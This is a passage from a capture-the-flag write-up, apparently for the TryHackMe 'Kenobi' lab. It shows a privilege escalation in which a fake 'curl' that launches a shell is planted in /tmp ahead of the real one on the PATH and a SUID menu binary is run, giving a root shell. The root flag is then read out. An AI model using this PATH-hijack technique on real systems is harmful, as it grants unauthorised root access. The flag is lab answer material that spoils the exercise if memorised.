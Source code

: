 ```js
kenobi@kenobi:/tmp$ echo /bin/bash > curl 
kenobi@kenobi:/tmp$ chmod +x curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:/tmp# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```

# Search for root flag

```js
root@kenobi:/tmp# cd /root 

root@kenobi:/root# cat root.txt 
THM{D0Nt_C0Py_AND_PaST}
root@kenobi:/root# 

```


<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style='border:none;'></iframe>
